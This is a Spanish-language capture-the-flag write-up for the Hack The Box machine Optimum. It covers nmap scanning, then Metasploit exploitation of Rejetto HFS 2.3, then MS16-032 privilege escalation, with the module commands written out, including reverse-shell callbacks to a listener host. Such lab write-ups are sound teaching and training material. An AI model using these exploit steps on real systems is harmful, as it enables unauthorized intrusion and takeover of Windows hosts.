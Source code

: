 ```yaml
---
description: '✍️ Autor: ch4p 🔍 Dificultad: Fácil 📅 Fecha de creación: 3/10/2017'
---
```


# Optimum

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.8
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-16 183702.png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.8
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-16 184014.png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 80 (HTTP):** Este puerto generalmente está asociado a servidores web. Si el servicio está ejecutando un servidor web como Apache, Nginx o IIS, es recomendable buscar vulnerabilidades conocidas relacionadas con el software y versiones en uso (por ejemplo, a través de CVEs). Además, es importante realizar pruebas de seguridad en las aplicaciones web que se ejecutan en el servidor, como inyecciones SQL, Cross-Site Scripting (XSS) o vulnerabilidades de escalada de privilegios.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 10.10.10.8
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-16 185051.png" alt=""><figcaption></figcaption></figure>

Buscamos exploits sobre esa versión.

```bash
searchsploit HFS 2.3
```

<figure><img src="../../.gitbook/assets/image (1237).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Explotamos a través de Metasploit.

```bash
use windows/http/rejetto_hfs_exec
set RHOSTS 10.10.10.8
set LHOST 10.10.14.7
run
background
```

Estamos dentro del Usuario Kostas por lo que podemos conseguir la flag del user. Buscamos a través de Metasploit que exploit nos recomienda.

### 🔐 **PRIVILEGIOS**

```bash
use multi/recon/local_exploit_suggerster
```

Descubrimos uno que nos llama la atención para explotarlo.

{% embed url="https://www.rapid7.com/db/modules/exploit/windows/local/ms16_032_secondary_logon_handle_privesc/" %}

```bash
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set LHOST 10.10.14.7 
set session 1  
exploit
```

<figure><img src="../../.gitbook/assets/image (1238).png" alt=""><figcaption></figcaption></figure>

```bash
getuid
```

<figure><img src="../../.gitbook/assets/image (1239).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (1240).png" alt=""><figcaption></figcaption></figure>
